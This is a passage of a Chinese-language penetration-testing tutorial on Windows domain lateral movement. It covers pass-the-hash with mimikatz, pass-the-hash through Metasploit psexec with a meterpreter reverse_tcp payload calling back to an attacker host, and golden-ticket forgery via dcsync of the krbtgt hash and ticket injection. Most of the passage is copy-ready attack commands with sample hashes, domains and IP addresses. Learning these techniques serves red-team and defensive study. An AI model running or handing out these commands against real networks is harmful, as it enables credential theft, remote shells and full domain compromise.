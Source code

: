 在域环境中，当我们获得了域内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域控进行哈希传递攻击。执行完命令后，会弹出cmd窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的NTLM哈希值

```bash
#使用域管理员administrator的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:administrator /domain:"testyu.com" /ntlm:dbd621b8ed24eb627d32514476fac6c5 
```

```bash
#使用域用户test的NTLM哈希值对域控进行哈希传递攻击
sekurlsa::pth /user:test /domain:"testyu.com" /ntlm:329153f560eb329c0e1deea55e88a1e9   
```



#### MSF进行哈希传递

有些时候，当我们获取到了某台主机的Administrator用户的LM-Hash和 NTLM-Hash ，并且该主机的445端口打开着。我们则可以利用 `exploit/windows/smb/psexec` 漏洞用MSF进行远程登录(哈希传递攻击)。(只能是administrator用户的LM-hash和NTLM-hash)，这个利用跟工作组环境或者域环境无关。

```bash
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit 
```







### 票据传递攻击(PTT)

#### 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:

```bash
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```

利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：

```bash
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
Copy#导入刚才生成的票据
kerberos::ptt test.kiribi

#导入成功后可获取域管权限
dir \\dc.abc.com\c$
```
